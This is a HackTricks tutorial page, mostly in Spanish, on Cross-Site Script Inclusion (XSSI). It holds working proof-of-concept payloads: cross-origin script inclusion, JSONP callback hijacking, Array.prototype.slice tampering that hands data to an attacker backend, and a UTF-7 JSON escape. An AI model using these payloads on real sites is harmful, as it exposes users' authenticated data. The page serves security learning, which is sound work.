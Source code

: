 # XSSI (Cross-Site Script Inclusion)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## Basic Information

**Cross-Site Script Inclusion (XSSI)** es una vulnerabilidad que surge de la naturaleza de la etiqueta `script` en HTML. A diferencia de la mayoría de los recursos, que están sujetos a la **Same-Origin Policy (SOP)**, los scripts pueden ser incluidos desde diferentes dominios. Este comportamiento está destinado a facilitar el uso de bibliotecas y otros recursos alojados en diferentes servidores, pero también introduce un riesgo potencial de seguridad.

### Key Characteristics of **XSSI**:
- **Bypass of SOP**: Los scripts están exentos de la **Same-Origin Policy**, lo que les permite ser incluidos entre dominios.
- **Data Exposure**: Un atacante puede explotar este comportamiento para leer datos cargados a través de la etiqueta `script`.
- **Impact on Dynamic JavaScript/JSONP**: **XSSI** es particularmente relevante para JavaScript dinámico o **JSON with Padding (JSONP)**. Estas tecnologías a menudo utilizan información de "autoridad ambiental" (como cookies) para la autenticación. Cuando se realiza una solicitud de script a un host diferente, estas credenciales (por ejemplo, cookies) se incluyen automáticamente en la solicitud.
- **Authentication Token Leakage**: Si un atacante puede engañar al navegador de un usuario para que solicite un script de un servidor que controla, podría acceder a información sensible contenida en estas solicitudes.

### Types

1. **Static JavaScript** - Esta representa la forma convencional de XSSI.
2. **Static JavaScript with Authentication** - Este tipo es distinto porque requiere autenticación para acceder.
3. **Dynamic JavaScript** - Involucra JavaScript que genera contenido dinámicamente.
4. **Non-JavaScript** - Se refiere a vulnerabilidades que no involucran JavaScript directamente.

**The following information is a sumary of [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Check it for further details.


### Regular XSSI
En este enfoque, la información privada está incrustada dentro de un archivo JavaScript accesible globalmente. Los atacantes pueden identificar estos archivos utilizando métodos como lectura de archivos, búsquedas de palabras clave o expresiones regulares. Una vez localizados, el script que contiene información privada puede ser incluido en contenido malicioso, permitiendo el acceso no autorizado a datos sensibles. Un ejemplo de técnica de explotación se muestra a continuación:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### Dynamic-JavaScript-based-XSSI y Authenticated-JavaScript-XSSI
Estos tipos de ataques XSSI implican que información confidencial se añade dinámicamente al script en respuesta a la solicitud de un usuario. La detección se puede realizar enviando solicitudes con y sin cookies y comparando las respuestas. Si la información difiere, puede indicar la presencia de información confidencial. Este proceso se puede automatizar utilizando herramientas como la extensión de Burp [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS).

Si los datos confidenciales se almacenan en una variable global, se pueden explotar utilizando métodos similares a los utilizados en XSSI Regular. Sin embargo, si los datos confidenciales se incluyen en una respuesta JSONP, los atacantes pueden secuestrar la función de callback para recuperar la información. Esto se puede hacer manipulando objetos globales o configurando una función para ser ejecutada por la respuesta JSONP, como se demuestra a continuación:
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
Para variables que no residen en el espacio de nombres global, *prototype tampering* a veces puede ser explotado. Esta técnica aprovecha el diseño de JavaScript, donde la interpretación del código implica recorrer la cadena de prototipos para localizar la propiedad llamada. Al sobrescribir ciertas funciones, como `slice` de `Array`, los atacantes pueden acceder y filtrar variables no globales:
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
Más detalles sobre los vectores de ataque se pueden encontrar en el trabajo del investigador de seguridad [Sebastian Lekies](https://twitter.com/slekies), quien mantiene una lista de [vectores](http://sebastian-lekies.de/leak/).

### Non-Script-XSSI
La investigación de Takeshi Terada introduce otra forma de XSSI, donde archivos Non-Script, como CSV, son filtrados entre orígenes al ser incluidos como fuentes en una etiqueta `script`. Instancias históricas de XSSI, como el ataque de Jeremiah Grossman en 2006 para leer una libreta de direcciones completa de Google y la filtración de datos JSON de Joe Walker en 2007, destacan la gravedad de estas amenazas. Además, Gareth Heyes describe una variante de ataque que involucra JSON codificado en UTF-7 para escapar del formato JSON y ejecutar scripts, efectiva en ciertos navegadores:
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
